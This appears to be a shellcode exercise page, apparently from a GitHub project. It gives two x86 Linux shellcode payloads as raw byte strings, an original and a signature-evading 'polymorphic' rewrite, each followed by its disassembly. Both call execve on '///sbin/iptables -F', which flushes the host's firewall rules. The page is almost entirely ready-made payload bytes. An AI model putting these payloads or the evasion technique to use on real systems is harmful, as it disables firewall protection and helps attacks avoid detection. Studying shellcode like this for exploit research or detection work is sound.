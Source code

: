 ## Initial nasm code

Length: 43 bytes

Obtain from running: 

    echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" | ndisasm -u -
  
    00000000  31C0              xor eax,eax
    00000002  50                push eax
    00000003  66682D46          push word 0x462d
    00000007  89E6              mov esi,esp
    00000009  50                push eax
    0000000A  68626C6573        push dword 0x73656c62
    0000000F  6869707461        push dword 0x61747069
    00000014  6862696E2F        push dword 0x2f6e6962
    00000019  682F2F2F73        push dword 0x732f2f2f
    0000001E  89E3              mov ebx,esp
    00000020  50                push eax
    00000021  56                push esi
    00000022  53                push ebx
    00000023  89E1              mov ecx,esp
    00000025  89C2              mov edx,eax
    00000027  B00B              mov al,0xb
    00000029  CD80              int 0x80
    
  
 ## Polymorphic shellcode

Length: 45 bytes

Obtain from running: 

    echo -ne "\x51\x66\x68\x2d\x46\x8d\x75\xde\x51\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x8d\x5e\xec\x51\x56\x53\x8d\x4b\xf4\x31\xd2\x6a\x0b\x58\xcd\x80" | ndisasm -u -

    00000000  51                push ecx
    00000001  66682D46          push word 0x462d
    00000005  8D75DE            lea esi,[ebp-0x22]
    00000008  51                push ecx
    00000009  68626C6573        push dword 0x73656c62
    0000000E  6869707461        push dword 0x61747069
    00000013  6862696E2F        push dword 0x2f6e6962
    00000018  682F2F2F73        push dword 0x732f2f2f
    0000001D  8D5EEC            lea ebx,[esi-0x14]
    00000020  51                push ecx
    00000021  56                push esi
    00000022  53                push ebx
    00000023  8D4BF4            lea ecx,[ebx-0xc]
    00000026  31D2              xor edx,edx
    00000028  6A0B              push byte +0xb
    0000002A  58                pop eax
    0000002B  CD80              int 0x80
